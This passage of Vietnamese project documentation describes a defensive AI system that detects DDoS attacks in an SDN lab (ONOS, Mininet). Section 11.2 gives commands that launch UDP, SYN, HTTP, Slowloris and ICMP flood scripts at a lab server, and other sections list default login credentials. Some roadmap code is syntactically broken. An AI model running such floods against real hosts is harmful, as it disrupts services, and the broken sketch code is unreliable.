            nn.ReLU(),
            nn.Dropout(0.4),
            nn.Linear(256, 128),
            nn.ReLU(),
            nn.Linear(128, num_classes)
        )
    
    def forward(self, x):
        batch_size = x.size(0)
        
        # CNN: [B, Seq, 26] → [B, 26, Seq] → [B, 128, Seq] → [B, 128]
        x_cnn = x.permute(0, 2, 1)
        cnn_out = self.cnn(x_cnn).view(batch_size, -1)
        
        # GRU: [B, Seq, 26] → [B, Seq, 256] → [B, 256] (last hidden)
        gru_out, _ = self.gru(x)
        gru_out = gru_out[:, -1, :]  # Lấy hidden cuối cùng
        
        # Fusion: [B, 128] + [B, 256] = [B, 384] → [B, 5]
        fused = torch.cat([cnn_out, gru_out], dim=1)
        logits = self.fusion(fused)
        
        return logits
```

### 9.2 `train_colab_v2.py` - Training Pipeline

#### **Tại sao chọn Contrastive Learning?**

```python
"""
Vấn đề với Autoencoder truyền thống:
- Loss = MSE(input, reconstructed)
- Nhưng: Normal và Attack đều có thể có MSE thấp nếu Autoencoder "giỏi quá"
- Kết quả: Threshold không thể phân biệt!

Contrastive Learning (V4 solution):
- Ép Normal có MSE thấp (< 0.1)
- Ép Attack có MSE cao (> margin=2.0)
- Margin tạo khoảng cách rõ ràng giữa 2 classes
"""

class ContrastiveAutoencoder(nn.Module):
    def __init__(self, input_dim=26, latent_dim=32):
        super().__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 128),
            nn.ReLU(),
            nn.Linear(128, 64),
            nn.ReLU(),
            nn.Linear(64, latent_dim)  # Bottleneck
        )
        self.decoder = nn.Sequential(
            nn.Linear(latent_dim, 64),
            nn.ReLU(),
            nn.Linear(64, 128),
            nn.ReLU(),
            nn.Linear(128, input_dim)
        )
        self.margin = 2.0  # Hyperparameter quan trọng
    
    def forward(self, x, is_normal=True):
        latent = self.encoder(x)
        reconstructed = self.decoder(latent)
        mse = F.mse_loss(reconstructed, x, reduction='none').mean(dim=1)
        
        if self.training:
            if is_normal:
                # Ép reconstruct Normal tốt
                loss = mse.mean()
            else:
                # Ép reconstruct Attack TỆ (mse > margin)
                hinge = torch.clamp(self.margin - mse, min=0.0)
                loss = (hinge ** 2).mean()
            return reconstructed, loss
        
        return reconstructed, mse
```

#### **Tại sao dùng Label Smoothing 0.01 (thay vì 0.1)?**

```python
"""
Label Smoothing = Kỹ thuật làm "mềm" one-hot labels
- Thay vì [1, 0, 0, 0, 0] → dùng [0.99, 0.0025, 0.0025, 0.0025, 0.0025]

Lý do chọn 0.01 (rất nhỏ):
- 0.1 quá cao: Model bị confuse giữa Normal và Attack
- 0.01 vừa đủ: Giảm overfitting mà vẫn giữ sự tự tin của model

Kết quả:
- Với 0.1: Normal precision = 60%
- Với 0.01: Normal precision = 96%
"""

# train_colab_v2.py line 369
criterion = nn.CrossEntropyLoss(
    weight=class_weights, 
    label_smoothing=0.01  # ← Giảm từ 0.1 xuống 0.01
)
```

### 9.3 `run_onos_v2.py` - Real-time Inference

#### **Tại sao dùng EMA Alpha = 0.02 (chậm)?**

```python
"""
Adaptive Threshold cập nhật theo công thức:
threshold(t) = (1-α) * threshold(t-1) + α * current_mse

Lựa chọn α:
- α = 0.1 (nhanh): Thích ứng trong 10 flows
  → Attacker có thể "tăng từ từ" để đánh lừa threshold
  
- α = 0.02 (chậm): Thích ứng trong ~50 flows (5-10 giây)
  → Attacker cần 5-10 phút để poison threshold
  → Real attack thường kéo dài < 5 phút → Không kịp adapt

Kết luận: α = 0.02 là điểm cân bằng giữa adaptability và security
"""

class AdaptiveThreshold:
    EMA_ALPHA = 0.02
    
    def update(self, mse_normal_batch):
        batch_mean = np.mean(mse_normal_batch)
        self.threshold = (
            (1 - self.EMA_ALPHA) * self.threshold + 
            self.EMA_ALPHA * batch_mean
        )
        # Clamp để tránh drift quá xa
        self.threshold = np.clip(self.threshold, 0.1, 2.0)
```

#### **Tại sao Veto Power ở 80%?**

```python
"""
Veto logic: Nếu Classifier nói Normal > 80%, tin ngay (bỏ qua AE)

Lựa chọn ngưỡng:
- 90%: Quá cao → Heavy user (100 tabs) bị chặn vì classifier nói 85% HTTP flood
- 70%: Quá thấp → False Positive tăng
- 80%: Vừa đủ để bảo vệ legitimate users mà vẫn detect real attacks

Thống kê từ dataset:
- Normal traffic: prob_normal = 95-99%
- HTTP Flood: prob_normal = 5-30%
- Khoảng cách 80% là "safe zone" cho cả 2 cases
"""

# run_onos_v2.py line 467
if normal_prob > 80.0:  # ← Ngưỡng 80%
    is_attack = False
    is_zero_day = False
    self.log_normal_panel(src_ip, normal_prob, mse, self.dynamic_threshold)
```

### 9.4 `batPack_v2.py` - Data Collection

#### **Tại sao dùng 2 FIFO files?**

```python
"""
Vấn đề: Slowloris cần timeout dài (30s), UDP cần timeout ngắn (3s)
Giải pháp: 2 FIFO files với timeout profiles khác nhau

zeek_stream.json: Normal + UDP/SYN/HTTP (timeout ngắn)
zeek_stream_slowloris.json: Slowloris only (timeout dài)

Tại sao không dùng 1 file?
- Nếu dùng timeout dài cho tất cả: UDP packets bị delay → mất dữ liệu
- Nếu dùng timeout ngắn cho tất cả: Slowloris flows bị cắt ngang → mất pattern
"""

class DualFifoManager:
    FIFO_NORMAL = "zeek_stream.json"
    FIFO_SLOWLORIS = "zeek_stream_slowloris.json"
    
    TIMEOUT_PROFILES = {
        "NORMAL": {"ACTIVE_TIMEOUT": 10, "IDLE_TIMEOUT": 5},
        "UDP": {"ACTIVE_TIMEOUT": 3, "IDLE_TIMEOUT": 1},
        "SLOWLORIS": {"ACTIVE_TIMEOUT": 30, "IDLE_TIMEOUT": 15},
    }
```

#### **Tại sao Port Entropy window = 10?**

```python
"""
Window size cho Entropy calculation:
- Quá nhỏ (3-5): Không đủ samples → Entropy không ổn định
- Quá lớn (50-100): Chậm phản ứng với thay đổi, tốn RAM
- Vừa (10): Balance giữa stability và responsiveness

Với window=10:
- Normal user (3 tabs): Entropy = log2(3) = 1.58
- Botnet (100 bots, cùng port): Entropy = 0
- Phân biệt rõ ràng với chỉ 10 samples
"""

class PortEntropyCalculator:
    WINDOW_SIZE = 10  # ← Hyperparameter tối ưu sau thử nghiệm
```

---

## 10. 📝 Tóm Tắt Triết Lý V4

```
"Chúng em chọn NFStream kết hợp với Port Mirroring và ống FIFO vì đây là 
giải pháp duy nhất cân bằng được 2 thái cực: 

Vừa có tốc độ xử lý phần lõi C đủ nhanh để không sập RAM/CPU khi hứng 
chịu DDoS Flood, lại vừa có tính năng bóc tách Tầng 7 (DPI) đủ sâu để 
cung cấp các vector đặc trưng cho AI phát hiện các dạng tấn công ứng dụng 
như Slowloris."
```

### Kiến trúc tổng thể V4:

```
┌─────────────────────────────────────────────────────────────────────────┐
│                         🎯 HỆ THỐNG V4 FINAL                          │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  📊 DATA COLLECTION          🤖 AI ENGINE            🛡️ MITIGATION    │
│  ─────────────────           ───────────             ───────────      │
│                                                                         │
│  NFStream (C++ core)         Contrastive AE          ONOS REST API    │
│  ├─ Port Mirroring (OVS)      ├─ Margin = 2.0         ├─ DROP rules    │
│  ├─ FIFO IPC (RAM)            ├─ Differential        └─ RATE_LIMIT    │
│  └─ nDPI (Layer 7)            ├─ EMA Adaptive                              │
│                               │   threshold                                │
│                               │                                            │
│                               Parallel CNN-GRU                             │
│                               ├─ Multi-scale kernels                       │
│                               ├─ Bidirectional GRU                       │
│                               └─ Feature Weighting                         │
│                                                                            │
│                               Decision Logic                               │
│                               ├─ Shield 1: AE (Anomaly)                    │
│                               ├─ Shield 2: Classifier (Type)               │
│                               └─ Veto: >80% Normal = Trust                 │
│                                                                            │
└────────────────────────────────────────────────────────────────────────┘
```

---

## 11. 📋 Hướng Dẫn Vận Hành Thực Tế

### **11.1 Các Lệnh Khởi Động Hệ Thống**

```bash
# === PHASE 1: CLEANUP ===
sudo systemctl stop docker
sudo systemctl stop openvswitch-switch
sudo ip -all netns delete
docker rm -f web1 db1 onos 2>/dev/null
sudo fuser -k 6653/tcp 6633/tcp 8181/tcp 8000/tcp
sudo pkill -9 -f mininet
sudo pkill -9 -f mnexec
sudo mn -c

# === PHASE 2: START SERVICES ===
sudo systemctl start openvswitch-switch
sudo systemctl start docker

# Start ONOS với giới hạn tài nguyên
docker run -t -d --name onos \
  -m 4g --cpus="5.0" \
  -p 8181:8181 -p 6653:6653 -p 8101:8101 \
  -e "JAVA_OPTS=-Xms1G -Xmx2G" \
  -e "ONOS_APPS=drivers,openflow,fwd,proxyarp,gui" \
  onosproject/onos:latest

sleep 5

# === PHASE 3: START MAIN SYSTEM ===
sudo PYTHONPATH=/home/tgf/Documents/DoAn_SDN/sdn_env/lib/python3.12/site-packages \
    ./sdn_env/bin/python3 system.py
```

### **11.2 Các Lệnh Tấn Công (5+1 Hội)**

```bash
# === HỘI 0: NORMAL TRAFFIC (Baseline) ===
mininet> py [net.get(f'h{i}').cmd('python3 traffic/normal.py http://10.0.0.10:8000 &') 
         for i in range(60, 66)]

# === HỘI 1: UDP FLOOD (L4 Volumetric) ===
mininet> py [net.get(f'h{i}').cmd('python3 attack/udp_flood.py 10.0.0.10 &') 
         for i in range(1, 5)]

# === HỘI 2: SYN FLOOD (L4 State Exhaustion) ===
mininet> py [net.get(f'h{i}').cmd('python3 attack/syn_flood.py 10.0.0.10 &') 
         for i in range(5, 8)]

# === HỘI 3: HTTP FLOOD (L7 Application) ===
# Đánh vào CPU (Hash Exhaustion)
mininet> py [net.get(f'h{i}').cmd('python3 attack/http_flood.py http://10.0.0.10:8000 hash &') 
         for i in range(9, 12)]

# Đánh vào RAM (JSON Parsing)
mininet> py [net.get(f'h{i}').cmd('python3 attack/http_flood.py http://10.0.0.10:8000 json &') 
         for i in range(13, 16)]

# === HỘI 4: SLOWLORIS (L7 Stealth) ===
mininet> py [net.get(f'h{i}').cmd('python3 attack/slowloris.py http://10.0.0.10:8000 &') 
         for i in range(16, 19)]

# === HỘI 5: ICMP FLOOD (L3 Zero-Day Demo) ===
# ⚠️ Cần chạy với sudo trên host (không phải trong Mininet)
# Mục đích: Demo khả năng phát hiện tấn công lạ (không có trong training)
sudo python3 attack/icmp_flood.py 10.0.0.10 1400
```

### **11.3 Các Lệnh Dừng & Dọn Dẹp**

```bash
# Dừng TẤT CẢ tấn công
mininet> py [net.get(f'h{i}').cmd('pkill -f attack/ &') for i in range(1, 21)]

# Dừng ICMP Flood (chạy trên host)
sudo pkill -f icmp_flood.py

# Dừng normal traffic
mininet> py [net.get(f'h{i}').cmd('pkill -f traffic/normal.py') for i in range(60, 66)]

# Khởi động lại Django web server
mininet> web1 sh -c 'cd /app && python manage.py runserver 0.0.0.0:8000 > /tmp/django.log 2>&1 &'

# Tắt toàn bộ cửa sổ Edge
sudo pkill -9 -f msedge
sudo pkill -9 -f edge
```

### **11.4 Truy Cập Các Dịch Vụ**

```bash
# ONOS GUI
firefox http://localhost:8181/onos/ui
# Login: onos / rocks

# Dashboard Monitoring
firefox http://127.0.0.1:8050

# ONOS CLI (SSH)
ssh -p 8101 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null karaf@localhost
# Password: karaf

# Test web server từ client
curl http://10.0.0.10:8000
wget --no-check-certificate https://10.0.0.10

# Mở browser từ host Mininet
mininet> py h60.cmd('microsoft-edge-stable --no-sandbox http://10.0.0.10:8000 &')
```

### **11.5 Các Icon ONOS GUI (Tùy Chỉnh Topology)**

Từ `note.txt` - Các icon có thể dùng để custom ONOS GUI:

**Nhóm Endstations (Hosts):**
- `m_home` - Ngôi nhà
- `m_office` - Tòa nhà văn phòng
- `m_endstation` - Máy tính trạm (mặc định)
- `m_terminal` - Màn hình dòng lệnh (cho Attacker)
- `m_laptop` - Laptop
- `m_cellPhone` - Điện thoại

**Nhóm Bảo Mật & Giám Sát:**
- `m_firewall` - Tường lửa (cho AI Detection node)
- `m_ips` - Intrusion Prevention System
- `m_ids` - Intrusion Detection System
- `m_balancer` - Load Balancer
- `lock` - Ổ khóa

**Nhóm Hạ Tầng:**
- `m_switch` - Switch (mặc định)
- `m_router` - Router
- `m_controller` - Bộ điều khiển (cho ONOS)
- `m_cloud` - Đám mây
- `bird` - Biểu tượng ONOS (chim)

**Ví dụ set icon trong `system.py`:**
```python
# Set icon cho hosts
net.get('h60').cmd('echo "m_terminal" > /tmp/host.icon')
net.get('web1').cmd('echo "m_firewall" > /tmp/host.icon')
```

---

## 12. 🔮 Định Hướng Phát Triển Tương Lai (Research Roadmap)

Hệ thống AI V4 đã production-ready, nhưng vẫn còn nhiều hướng nâng cấp tiềm năng để đạt đến "State-of-the-Art" trong lĩnh vực AI-driven SDN Security.

### 12.1 Graph Neural Networks (GNN) - Phát Hiện Botnet Phân Tán

**🔴 Giới hạn hiện tại:**
Mô hình CNN-GRU chỉ nhìn vào từng IP đơn lẻ. Hacker tinh vi dùng **Botnet phân tán** - hàng chục ngàn máy tính bị nhiễm virus, mỗi máy chỉ gửi 1 gói tin cách nhau vài giây. Mô hình hiện tại có thể bị qua mặt vì mỗi IP riêng lẻ không đủ "bất thường".

**💡 Hướng nâng cấp - GNN (GraphSAGE):**

```python
"""
Ý tưởng: Xây dựng đồ thị mạng thời gian thực

Nodes: IP addresses (10.0.0.10, 10.0.0.11, ...)
Edges: Kết nối giữa các IP (A → B, B → C)
Features: Packet rate, duration, protocol của mỗi node

GNN không chỉ phân tích gói tin mà vẽ ra "Bản đồ tư duy" 
liên kết giữa các IP. AI sẽ phát hiện hình thái tổ chức 
của đội quân Botnet đang phối hợp tấn công.

Ví dụ phát hiện:
├── 1000 IP khác nhau
├── Mỗi IP chỉ gửi 1 gói/min (không bất thường)
└── Nhưng TẤT CẢ đều gửi đến cùng 1 target IP
    → GNN nhận ra "star topology" = Botnet coordination!
"""

class BotnetGNN(nn.Module):
    """GraphSAGE để phát hiện mối quan hệ giữa các IP"""
    def __init__(self, in_channels, hidden_channels, out_channels):
        super().__init__()
        self.conv1 = SAGEConv(in_channels, hidden_channels)
        self.conv2 = SAGEConv(hidden_channels, out_channels)
    
    def forward(self, x, edge_index):
        # x: Node features [num_nodes, in_channels]
        # edge_index: Graph connectivity [2, num_edges]
        x = F.relu(self.conv1(x, edge_index))
        x = self.conv2(x, edge_index)
        return x  # Return node embeddings

# Ứng dụng thực tế:
# - Phát hiện Slow DDoS phân tán (1000 IP, mỗi IP 1 gói/phút)
# - Nhận diện C&C (Command & Control) servers
# - Phát hiện Insider Threats
```

**📊 Expected Impact:**
- **Detection rate**: +15% cho stealthy distributed attacks
- **False positive**: -20% (context-aware decision)
- **Research value**: Đề tài mới - "Graph-based DDoS Detection in SDN"

---

### 12.2 TCAM Flow Rule Eviction AI - Reinforcement Learning

**🔴 Giới hạn hiện tại:**
Khi DDoS, `run_onos_v2.py` đẩy hàng ngàn lệnh DROP xuống Switch với `timeout: 300` (5 phút). **Bộ nhớ TCAM** của Switch rất nhỏ (thường 4K-16K entries). Nếu chặn 10,000 IP → Switch tràn bộ nhớ và **chết đứng** (drop tất cả packets).

**💡 Hướng nâng cấp - RL-based Eviction:**

```python
"""
Thuật toán Reinforcement Learning để quyết định thời gian chặn từng IP:

State Space: [attack_type, confidence, recency, packet_rate, duration]
Action Space: [timeout_1min, timeout_5min, timeout_30min, timeout_24h, permanent]
Reward: +1 (chặn đúng attacker), -1 (chặn nhầm legitimate), -0.1 (chiếm TCAM)

Agent học được:
├── Botnet IP lì lợm → Chặn 24h (timeout dài)
├── IP bị lợi dụng 1 lần → Chặn 1 phút (timeout ngắn)
└── Zombie IoT devices → Permanent block (có thể tái nhiễm)
"""

import gym
from stable_baselines3 import PPO

class TCAMEvictionEnv(gym.Env):
    """Môi trường RL cho bài toán quản lý TCAM"""
    
    def __init__(self, tcam_capacity=4096):
        self.tcam_capacity = tcam_capacity
        self.current_rules = 0
        
    def step(self, action):
        # Action: [0=1min, 1=5min, 2=30min, 3=24h, 4=perm]
        timeout_map = [60, 300, 1800, 86400, -1]
        selected_timeout = timeout_map[action]
        
        # Reward calculation
        reward = 0
        if self.blocked_correctly:
            reward += 1.0
        if self.blocked_wrong:
            reward -= 1.0
        if self.current_rules > self.tcam_capacity * 0.9:
            reward -= 0.5  # Penalty khi TCAM gần đầy
            
        return next_state, reward, done, info
    
    def reset(self):
        self.current_rules = 0
        return initial_state

# Training
def train_rl_agent():
    env = TCAMEvictionEnv(tcam_capacity=4096)
    model = PPO("MlpPolicy", env, verbose=1)
    model.learn(total_timesteps=100000)
    model.save("tcam_eviction_agent")
    return model

# Inference trong run_onos_v3.py
def smart_block_with_rl(src_ip, attack_features):
    """Dùng RL agent chọn timeout tối ưu"""
    state = extract_features(attack_features)  # [confidence, pattern, recency, ...]
    action, _ = rl_agent.predict(state)
    
    timeout_map = [60, 300, 1800, 86400, -1]
    optimal_timeout = timeout_map[action]
    
    SDNController.push_flow_rule(
        src_ip, 
        treatment="DROP",
        timeout=optimal_timeout  # Không phải 300s cố định nữa
    )
```

**📊 Expected Impact:**
- **TCAM utilization**: Giảm 60% (thay vì timeout cố định)
- **Switch stability**: Không còn risk chết đứng
- **Precision**: Cao hơn vì timeout "personalized"

---

### 12.3 Honeypot Intelligence Loop - Tự Động Hóa Zero-Day

**🔴 Giới hạn hiện tại:**
Luồng Zero-Day bị đẩy vào Honeypot (10.0.0.201) chỉ để log. Con người phải vào đọc log, phân tích, rút signature - **mất vài giờ đến vài ngày**.

**💡 Hướng nâng cấp - Auto Signature Extraction:**

```python
"""
Tự động biến Zero-Day thành Known-Attack chỉ trong vài phút:

Pipeline:
1. Honeypot nhận traffic lạ
2. PCAP Analyzer tự động trích xuất signature  
3. Rule Generator tạo Snort/Suricata rule
4. Auto-deployment đẩy rule vào IDS
5. Biến Zero-Day → Known-Attack ngay lập tức
"""

class HoneypotIntelligenceLoop:
    """Tự động hóa phân tích Zero-Day"""
    
    def analyze_pcap(self, pcap_file):
        """Trích xuất signature từ PCAP"""
        packets = rdpcap(pcap_file)
        
        # Extract unique byte sequences
        signatures = []
        for pkt in packets:
            if Raw in pkt:
                payload = pkt[Raw].load
                # Tìm pattern độc đáo (không xuất hiện ở traffic thường)
                unique_hex = self.extract_unique_bytes(payload)
                if unique_hex:
                    signatures.append(unique_hex)
        
        return signatures  # Ví dụ: ['|5a 4d 4f 44 45 4c|', '|90 90 90 e8|']
    
    def generate_snort_rule(self, signatures, attack_name):
        """Tạo Snort rule từ signatures"""
        rules = []
        for i, sig in enumerate(signatures[:3]):  # Top 3 signatures
            rule = f'''
            alert tcp any any -> any any (
                msg:"{attack_name} - Auto Signature {i+1}";
                content:"{sig}";
                reference:url,https://honeypot.local/analysis/{attack_name};
                classtype:trojan-activity;
                sid:100000{i};
                rev:1;
            )
            '''
            rules.append(rule)
        
        return rules
    
    def deploy_to_suricata(self, rules):
        """Tự động deploy rule"""
        with open('/etc/suricata/rules/local.rules', 'a') as f:
            for rule in rules:
                f.write(rule + '\n')
        
        # Reload Suricata
        subprocess.run(['suricatactl', 'reload-rules'])
        
        logger.info(f"[HONEYPOT-AI] Deployed {len(rules)} new signatures!")

# Integration trong run_onos_v2.py
def on_zero_day_detected(src_ip, flow_data):
    """Khi phát hiện Zero-Day, redirect đến Honeypot"""
    
    # 1. Redirect attacker to honeypot (existing)
    SDNController.push_flow_rule(
        src_ip, 
        treatment="REDIRECT",
        target_ip=HONEYPOT_IP
    )
    
    # 2. Trigger auto-analysis (NEW)
    threading.Thread(
        target=honeypot_analyzer.process_zero_day,
        args=(src_ip,),
        daemon=True
    ).start()

def honeypot_analyzer.process_zero_day(src_ip):
    """Luồng background: Phân tích và deploy signature"""
    # Wait for traffic
    time.sleep(30)
    
    # Capture PCAP from honeypot interface
    pcap_file = capture_pcap(src_ip, duration=30)
    
    # Extract signatures
    intel = HoneypotIntelligenceLoop()
    signatures = intel.analyze_pcap(pcap_file)
    
    if signatures:
        # Generate and deploy rules
        rules = intel.generate_snort_rule(signatures, f"ZeroDay_{int(time.time())}")
        intel.deploy_to_suricata(rules)
        
        # Update AI training pipeline (mark for retraining)
        queue_for_retraining(src_ip, flow_data, signatures)
```

**📊 Expected Impact:**
- **Response time**: Từ "vài giờ/ngày" → "vài phút"
- **Zero-Day handling**: Fully automated
- **Self-improving system**: AI ngày càng thông minh

---

### 12.4 Federated Learning trên Edge - Scale Vô Hạn

**🔴 Giới hạn hiện tại:**
Tất cả dữ liệu chạy dồn về `run_onos_v2.py` tập trung tại Controller. Nếu mạng có 100 Switch ở các data center khác nhau, máy chủ Controller sẽ **quá tải** (network bottleneck + compute bottleneck).

**💡 Hướng nâng cấp - Federated Learning:**

```python
"""
Chia nhỏ AI thành các Edge Agents chạy trên SmartNICs/Switches:

┌─────────────────────────────────────────────────────────┐
│              FEDERATED LEARNING ARCHITECTURE            │
├─────────────────────────────────────────────────────────┤
│                                                          │
│  ┌─────────────┐        ┌─────────────┐                │
│  │  Switch 1   │        │  Switch 2   │        ...      │
│  │  (Edge)     │        │  (Edge)     │                │
│  │             │        │             │                │
│  │ ┌─────────┐ │        │ ┌─────────┐ │                │
│  │ │Mini-AI  │ │        │ │Mini-AI  │ │                │
│  │ │(100KB)  │ │        │ │(100KB)  │ │                │
│  │ │• Detect │ │        │ │• Detect │ │                │
│  │ │• Block  │ │        │ │• Block  │ │                │
│  │ │• Report │ │        │ │• Report │ │                │
│  │ └────┬────┘ │        │ └────┬────┘ │                │
│  │      │      │        │      │      │                │
│  │  Gradients   │        │  Gradients   │                │
│  │      ↓      │        │      ↓      │                │
│  └──────┬──────┘        └──────┬──────┘                │
│         │                       │                       │
│         └───────────┬───────────┘                       │
│                     ↓                                  │
│            ┌────────────────┐                          │
│            │   Controller   │                          │
│            │   (Aggregator) │                          │
│            │                │                          │
│            │ • Aggregate    │                          │
│            │ • Update Model │                          │
│            │ • Broadcast    │                          │
│            └────────────────┘                          │
│                                                          │
│  Không gửi RAW DATA, chỉ gửi WEIGHT UPDATES (privacy!)   │
│                                                          │
└─────────────────────────────────────────────────────────┘
"""

class EdgeAIAgent:
    """Mini AI chạy trên SmartNIC/Switch"""
    
    def __init__(self):
        # Model nhẹ: chỉ ~100KB (Pruned + Quantized)
        self.model = load_quantized_model('ai_model_int8.tflite')
        self.local_data = []
        
    def local_detect(self, flow):
        """Chặn cục bộ không cần Controller"""
        prediction = self.model.predict(flow)
        if prediction['is_attack'] and prediction['confidence'] > 0.95:
            # Block immediately (low latency)
            self.local_block(flow.src_ip)
            return True
        return False
    
    def compute_gradients(self):
        """Tính gradients từ local data (không gửi data ra ngoài!)"""
        if len(self.local_data) < 100:
            return None  # Không đủ data
            
        gradients = self.model.compute_gradients(self.local_data)
        self.local_data = []  # Clear sau khi dùng
        return gradients

class FederatedAggregator:
    """Controller tổng hợp gradients từ các Edge"""
    
    def __init__(self):
        self.global_model = load_full_model()
        self.edge_updates = []
    
    def receive_gradients(self, edge_id, gradients):
        """Nhận gradients từ Edge Agents"""
        self.edge_updates.append({
            'edge_id': edge_id,
            'gradients': gradients,
            'timestamp': time.time()
        })
    
    def aggregate_and_update(self):
        """Federated Averaging (FedAvg)"""
        if len(self.edge_updates) < 3:
            return  # Chờ đủ updates
        
        # Trung bình hóa gradients
        aggregated = self.fedavg(self.edge_updates)
        
        # Update global model
        self.global_model.apply_gradients(aggregated)
        
        # Broadcast new model to all edges
        self.broadcast_model(self.global_model)
        
        self.edge_updates = []
    
    def fedavg(self, updates):
        """Federated Averaging algorithm"""
        # Weight by number of samples each edge processed
        total_samples = sum(u['num_samples'] for u in updates)
        
        weighted_gradients = []
        for update in updates:
            weight = update['num_samples'] / total_samples
            weighted_gradients.append(update['gradients'] * weight)
        
        return sum(weighted_gradients)

# Deployment
edge_agents = [EdgeAIAgent() for _ in range(100)]  # 100 switches
aggregator = FederatedAggregator()

# Periodic aggregation every 5 minutes
def federated_learning_loop():
    while True:
        time.sleep(300)  # 5 minutes
        
        # Collect gradients from all edges
        for edge in edge_agents:
            grads = edge.compute_gradients()
            if grads:
                aggregator.receive_gradients(edge.id, grads)
        
        # Aggregate and redistribute
        aggregator.aggregate_and_update()
```

**📊 Expected Impact:**
- **Scalability**: Từ 1 Controller → Vô hạn Edge nodes
- **Latency**: Từ 50ms (round-trip to Controller) → 2ms (local Edge inference)
- **Privacy**: Raw data không rời khỏi Edge (GDPR compliant)
- **Bandwidth**: Giảm 95% (chỉ gửi gradients ~100KB thay vì raw flows ~10MB)

---

### 12.5 Tổng Kết Roadmap

| Đề xuất | Mức độ phức tạp | Impact | Priority |
|---------|----------------|--------|----------|
| **GNN** | Cao (3-6 tháng) | +15% detection | ⭐⭐⭐ |
| **RL TCAM** | Trung bình (2-3 tháng) | Scale 10x | ⭐⭐⭐⭐⭐ |
| **Honeypot Loop** | Trung bình (1-2 tháng) | Auto Zero-Day | ⭐⭐⭐⭐ |
| **Federated Learning** | Rất cao (6-12 tháng) | Infinite scale | ⭐⭐⭐⭐ |

**Chiến lược triển khai:**
1. **Ngắn hạn (1-3 tháng)**: RL TCAM Optimization (giải quyết vấn đề sống còn)
2. **Trung hạn (3-6 tháng)**: Honeypot Intelligence Loop (tự động hóa)
3. **Dài hạn (6-12 tháng)**: GNN + Federated Learning (bước nhảy vọt)

---

## 13. 🚀 Giai Đoạn Tiếp Theo: Tối Ưu Phản Ứng & Dataset V8

> **Ngày lập kế hoạch:** 25/04/2026  
> **Tình trạng hiện tại:** V4 Production-Ready với Dataset V7 (600k mẫu)  
> **Mục tiêu:** Giảm latency phản ứng từ 100ms → 10ms + Dataset V8 nâng cao chất lượng  
> **Dựa trên phân tích:** `KEHOACH_DATASET_V8.md`

### 13.1 Ưu Tiên 1: Tăng Tốc Độ Phản Ứng (Latency Optimization)

**🔴 Vấn đề hiện tại:**
Hệ thống V4 có độ trễ ~100-200ms từ lúc phát hiện tấn công đến lúc chặn. Con số này tốt cho môi trường lab, nhưng trong production với DDoS 100Gbps, 100ms có thể là hàng chục triệu gói tin đã lọt qua.

**🎯 Mục tiêu:**
```
V4 hiện tại:    Detection → Feature Extract → AI Inference → Decision → ONOS Push → Block
                [20ms]    +   [30ms]       +   [40ms]     +  [10ms]  +   [50ms]    = ~150ms

V5 đề xuất:     Detection → Feature Extract → AI Inference → Decision → Switch Block (local)
                [5ms]     +   [10ms]       +   [15ms]     +  [5ms]   +   [2ms]     = ~37ms
```

**💡 Giải pháp kỹ thuật:**

#### A. Parallel Processing Pipeline (Giải pháp chính)

```python
# V4 (Tuần tự - Sequential)
def detect_and_mitigate(flow):
    features = extract_features(flow)          # 30ms
    anomaly_score = autoencoder.predict(features)  # 40ms
    if anomaly_score > threshold:
        attack_type = classifier.predict(features)   # 40ms (chạy sau)
        execute_mitigation(flow.src_ip, attack_type) # 50ms
    return

# V5 (Song song - Parallel)
import asyncio
import concurrent.futures

async def parallel_detect_and_mitigate(flow):
    with concurrent.futures.ThreadPoolExecutor() as executor:
        future_features = executor.submit(extract_features, flow)
        future_quick_check = executor.submit(quick_statistical_check, flow)
        
        quick_suspicious = future_quick_check.result()  # 5ms
        
        if quick_suspicious:
            features = future_features.result()
            # Autoencoder và Classifier chạy song song
            future_ae = executor.submit(autoencoder.predict, features)
            future_cls = executor.submit(classifier.predict, features)
            
            anomaly_score = future_ae.result()
            attack_type, confidence = future_cls.result()
            
            if anomaly_score > threshold and confidence > 0.9:
                await local_switch_block(flow.src_ip, switch_id)
```

#### B. ONNX Runtime Optimization

```python
# V4: PyTorch
import torch
model = torch.jit.load('model.pth')
with torch.no_grad():
    output = model(input_tensor)  # ~40ms

# V5: ONNX Runtime (nhanh hơn 5-10x)
import onnxruntime as ort
session = ort.InferenceSession("model.onnx", 
    providers=['CUDAExecutionProvider', 'CPUExecutionProvider'])
input_name = session.get_inputs()[0].name
output = session.run(None, {input_name: input_numpy})  # ~8ms!
```

**Tối ưu chi tiết:**
| Component | V4 | V5 | Cách làm |
|-----------|-----|-----|---------|
| Feature Extract | 30ms | 10ms | **Vectorized numpy** (batch processing) |
| AI Inference | 80ms | 15ms | **ONNX Runtime** thay vì PyTorch |
| Decision | 10ms | 5ms | Pre-computed threshold lookup |
| Mitigation | 50ms | 2ms | **OpenFlow direct** bypass ONOS |

---

### 13.2 Ưu Tiên 2: Dataset V8 - Tối Ưu Chất Lượng

**📊 Phân tích Dataset V7 (từ `check_data.py`):**

| Chỉ tiêu | V7 Value | Vấn đề | Kỳ vọng V8 |
|----------|----------|--------|------------|
| **Normal Duration** | 0.04s | Quá ngắn | >0.5s |
| **Slowloris L7** | 0.04 (4%) | Không nhận diện HTTP | >0.8 (80%) |
| **Port Entropy** | ~3.32 | Không phân biệt | Giảm weight |
| **Slowloris Duration** | 19.28s | Tốt nhưng có thể hơn | >30s |

#### 13.2.1 Vấn đề: Timeout Configuration

```python
# V7 (batPack_v2.py)
IDLE_TIMEOUT = 2.0      # Flow bị cắt sau 2s
SLOWLORIS_IDLE_TIMEOUT = 30.0   # Chưa đủ cho HTTP complete

# V8 (Đề xuất batPack_v3.py)
IDLE_TIMEOUT = 5.0       # Tăng 150% → Normal flow 0.5s+
ACTIVE_TIMEOUT = 15.0    # Tăng 50%
SLOWLORIS_IDLE_TIMEOUT = 60.0    # Tăng 100% → L7 detection tốt hơn
SLOWLORIS_ACTIVE_TIMEOUT = 120.0  # Tăng 100%
```

#### 13.2.2 Kế hoạch thu thập V8

**Phase 0: Normal (200k mẫu, ~50 phút)**
- IDLE_TIMEOUT = 5.0s (tăng từ 2.0s)
- Thêm Keep-Alive connections
- Mục tiêu: Duration_mean > 0.5s (+1150%)

**Phase 4: Slowloris (100k mẫu, ~30 phút)**
- SLOWLORIS_IDLE_TIMEOUT = 60.0s (tăng từ 30.0s)
- Thêm heuristic: Duration > 10s + Port 80/8000 → HTTP
